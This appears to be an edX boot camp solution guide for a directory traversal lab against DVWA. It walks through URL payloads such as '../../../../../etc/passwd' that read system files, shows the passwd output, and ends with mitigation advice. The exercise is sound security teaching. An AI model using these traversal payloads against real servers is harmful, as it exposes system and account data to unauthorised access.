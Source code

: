 ## Solution Guide: Directory Traversal 

In this activity, you were tasked with testing the intended purpose of an application to view back-end files from the web application's server. You were then tasked with manipulating the URL with the dot-slash method to view confidential and hidden files on the web application server.

---

1. Test the intended use of the web application.

    - View the contents of `file1.php`.
      
      - Select the link to `file1.php`, and note the following:
      
          - The URL changes to <http://192.168.13.25/vulnerabilities/fi/?page=file1.php>.
          
          - Note that the parameter references the file that was selected: `?page=file1.php`.
        
          - The content on the webpage was displayed:
      
              `Hello admin
              Your IP address is: 192.168.13.1`
          
      - Select the other links (`file2.php` and `file3.php`) and note their URL and webpage changes.
      
      - Note that the intended purpose of this application is to provide a user access to those three files only. 

2. On your web lab, open the terminal. 

      - Connect to the container of the Replicants webpage:

        - `docker exec -it dvwa bash`
      
      - Once you have connected to the container, run the following command to access the directory where `file1.php`, `file2.php`, and `file3.php` are located:

        - `cd /var/www/html/vulnerabilities/fi`

      - View the files in this directory using the `ls` command.

        - Note that you should see the files `file1.php`, `file2.php`, and `file3.php`.

      - View the contents at the top of `file2.php`:
        
        -  `head file2.php`
      
        - Note how this file contains HTML that matches what you saw on the Replicants website when you clicked on `file2.php`:
          
          - `<em>I needed a password eight characters long so I picked Snow White and the Seven Dwarfs.</em>\" ~ Nick Helm<br /><br />`

        - Take note of the other `file<#>.php` file located in this directory. 

    - **Solution:** The other `file<#>.php` file located in this directory is `file4.php`.
 
3. Test the unintended consequences of this application.
 
    - We saw another `file<#>.php` file in that directory. That file does not have a link to access on Replicants webpage. Try to access it by modifying the parameter of the URL.

      - **Solution:** To view `file4.php`, change the URL to <http://192.168.13.25/vulnerabilities/fi/?page=file4.php>.

      - The parameter changed to `?page=file4.php`.
        
      - The webpage will display the following message:
          
            File 4 (Hidden)
            Good job!
            This file isn't listed at all on DVWA. If you are reading this, you did something right ;-)
          
4. Traverse through other paths. 

    - In Part 3, you modified the parameter of the URL to view a hidden file. Try to access the `passwd` file by modifying the parameter of the URL again.

    - **Solution:** To view the `passwd` file, you need to use the dot-slash method.
      
      - First we need to determine how many directories back the top of the directory structure is. Because the files are located in `/var/www/html/vulnerabilities/fi#`, they are five files deep.

        - To go back five directories, we use the dot-slash method five times. Then we go forward to access the `/etc/passwd` file:

          - `../../../../../etc/passwd`

        - The complete URL will resemble the following, when we place the payload as the parameter: <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/passwd>.

      - This will display the `/etc/passwd` file at the top of the page:

          ```
            root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin       sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
        ```

      - Note that if we don't know how many directories back to go, we keep testing payloads until we see the `passwd` file. For example: 

        -  `../etc/passwd`

        -  `../../etc/passwd`

        - `../../../etc/passwd`

        - `../../../../etc/passwd`

5. **Bonus:** Previously, you modified the URL to view the file `passwd`. Try to access other files (such as the hosts, group, or networks) using the same techniques.

    - If you can access the files, research online, and document what data those files contain.

    - **Solution:** To view the files for hosts, group, or networks, you need to use the same dot-slash method.

      - The URLs for each of these are as follows:

        - <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/group>
      
        - <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/networks>
      
        - <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/hosts>
        
      - These files contain the following information:

        - `group`: Contains all the groups and members for that linux server.

        - `networks`: Translates IP addresses to network names.
        
        - `hosts`: Maps host names to IP addresses.
      
6. Answer the following mitigation strategy questions: 

    - Describe to your management how a malicious user could take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

        - The impact could include:

          - Display of confidential data such as user information, system accounts, services being ran, networking information (IP addresses).

          - Use of all of the confidential information to apply other types of attacks.

    - Describe how you would mitigate the vulnerabilities you just exploited.

      - Mitigation options can include:

        - Server-side validation that does not allow selection of unintended files.

        - Segregation of confidential files from the web server and accessible directories.

        - Permissions to restrict web server account accessibility.
        
      - Refer to the following page for a more comprehensive list of directory traversal mitigations: 

        - [Hacksplaining: Preventing Directory Traversal](https://www.hacksplaining.com/prevention/directory-traversal)    

  
___

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved. 
